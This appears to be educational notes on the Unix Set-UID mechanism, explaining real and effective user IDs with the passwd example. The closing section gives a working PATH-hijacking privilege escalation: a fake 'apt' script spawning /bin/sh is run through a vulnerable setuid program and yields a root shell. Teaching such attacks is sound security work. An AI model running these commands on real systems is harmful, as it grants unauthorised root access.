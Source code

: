 Set-UID Concept
• Allow user to run a program with the program owner’s privilege.\
• Allow users to run programs with temporary elevated privileges\
• Example: the passwd program\
$ ls -l /usr/bin/passwd\
-rwsr-xr-x 1 root root 41284 Sep 12 2012 /usr/bin/passwd
Every process has two User IDs.\
• Real UID (RUID): Identifies real owner of process\
• Effective UID (EUID): Identifies privilege of a process\
• Access control is based on EUID\
• When a normal program is executed, RUID = EUID, they both equal\
to the ID of the user who runs the program\
• When a Set-UID is executed, RUID ≠ EUID. RUID still equal to the\
user’s ID, but EUID equals to the program owner’s ID.\
Setuid is a Unix access rights flag that allow users to run an executable with the file system permissions of the executable’s owner.

![image](https://user-images.githubusercontent.com/70282840/194762130-00d2b17f-72be-4cac-bd4c-24a7541e9761.png)

**Exploiting a setuid executable**
 Use file attached
 
```$ mkdir /tmp/foo # create random directory to put the script

$ echo /bin/sh > /tmp/foo/apt # create the script that will launch /bin/sh

$ chmod 755 /tmp/foo/apt # mark it as executable

$ PATH=/tmp/foo:$PATH /usr/local/bin/apt-updater # override the PATH variable to that it contains /tmp/foo directory & execute the vulnerable program

id # we are root!

uid=0(root) gid=1001(creekorful) groups=1001(creekorful)
